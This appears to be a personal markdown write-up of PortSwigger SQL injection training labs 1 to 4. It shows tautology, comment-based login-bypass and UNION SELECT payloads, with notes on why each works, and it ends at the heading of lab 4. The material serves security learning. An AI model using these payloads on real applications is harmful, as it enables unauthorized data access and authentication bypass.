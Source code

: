# PortSwigger Labs
<!-- vscode-markdown-toc -->
* 1. [SQL Injection](#SQLInjection)
	* 1.1. [Lab 01: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#Lab01:SQLinjectionvulnerabilityinWHEREclauseallowingretrievalofhiddendata)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

[PortSwigger Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[PortSwigger Labs](https://portswigger.net/web-security/all-labs#sql-injection)

----

##  1. <a name='SQLInjection'></a>SQL Injection
###  1.1. <a name='Lab01:SQLinjectionvulnerabilityinWHEREclauseallowingretrievalofhiddendata'></a>Lab 01: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Level: Apprentice

![](imgs/2023-09-11-19-55-50.png)

'?category='
![](imgs/2023-09-11-19-57-59.png)

the application carries out a SQL query like the following:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

You can put the clause 'AND released = 1' after a '--' quote (comment syntax). Then the clause 'AND released = 1' no longer available.

Query:
```
?category=Gifts' or 1=1--;'
?category=Gifts%27%20or%201=1--;%27
```

![](imgs/2023-09-11-20-09-36.png)

### Lab 02: SQL injection vulnerability allowing login bypass
[Link](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

![](imgs/2023-09-11-20-33-25.png)

Query:
```
Username: administrator'--
Password: random
```

### Lab 03: SQL injection attack, querying the database type and version on Oracle

[Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Query:
```
?category=Gifts' UNION SELECT 'a',banner FROM v$version--
```

![](imgs/2023-09-11-20-50-41.png)

### Lab 04: SQL injection attack, querying the database type and version on MySQL and Microsoft
[Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

